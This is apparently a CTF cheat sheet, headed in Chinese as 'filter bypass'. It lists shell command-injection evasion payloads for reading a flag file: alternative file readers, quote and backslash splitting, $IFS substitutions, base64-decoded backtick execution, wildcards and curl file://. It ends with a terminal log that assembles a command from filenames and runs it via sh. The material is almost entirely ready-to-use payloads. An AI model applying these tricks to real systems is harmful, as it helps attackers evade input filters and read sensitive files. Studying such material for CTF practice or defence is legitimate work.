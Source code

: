 ```bash

过滤绕过
cat flag

more
less
head
tail
tac
nl
od
vi
vim
sort
uniq
file -f

ca\t fl\ag
cat fl''ag

a=fl;b=ag;cat$IFS$a$b

ca$*t flag
ca$@t flag
ca$1t flag
ca${1}t flag

cat `ls`
cat $(ls)

echo 'cat' | base64
`echo 'Y2F0Cg==' | base64 -d`


cat *a?

curl file:///root/flag1/flag
strings flag

cat${IFS}flag
cat$IFS$1flag
{cat,flag}
```



```bash
[root@localhost flag1]# touch "ag"
[root@localhost flag1]# touch "fl\\"
[root@localhost flag1]# touch "t \\"
[root@localhost flag1]# touch "ca\\"
[root@localhost flag1]# ls -t
ca\  t \  fl\  ag  flag
[root@localhost flag1]# ls -t >shell
[root@localhost flag1]# sh shell
shell:行1: shell: 未找到命令
123456
shell:行6: flag: 未找到命令
```

